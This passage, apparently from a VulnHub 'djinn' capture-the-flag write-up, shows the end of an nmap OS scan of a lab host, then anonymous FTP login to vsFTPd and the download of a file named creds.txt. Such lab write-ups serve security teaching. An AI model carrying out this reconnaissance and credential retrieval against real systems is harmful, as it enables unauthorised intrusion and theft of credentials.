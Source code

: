Running: Linux 3.X\|4.X

OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4

OS details: Linux 3.2 - 4.9

Network Distance: 1 hop

Service Info: OS: Unix

TRACEROUTE

HOP RTT ADDRESS

1 0.88 ms 192.168.211.145

OS and Service detection performed. Please report any incorrect results at
https://nmap.org/submit/ .

Nmap done: 1 IP address (1 host up) scanned in 105.73 seconds

### FTP Enumeration (ftp)

root\@lifesfun:\~/vulnhub/djinn\# ftp 192.168.211.145

Connected to 192.168.211.145.

220 (vsFTPd 3.0.3)

Name (192.168.211.145:root): anonymous

331 Please specify the password.

Password:

230 Login successful.

Remote system type is UNIX.

Using binary mode to transfer files.

ftp\> ls

200 PORT command successful. Consider using PASV.

150 Here comes the directory listing.

\-rw-r--r-- 1 0 0 11 Oct 20 23:54 creds.txt

\-rw-r--r-- 1 0 0 128 Oct 21 00:23 game.txt

\-rw-r--r-- 1 0 0 113 Oct 21 00:23 message.txt

226 Directory send OK.

ftp\> get creds.txt

local: creds.txt remote: creds.txt

200 PORT command successful. Consider using PASV.

150 Opening BINARY mode data connection for creds.txt (11 bytes).

226 Transfer complete.
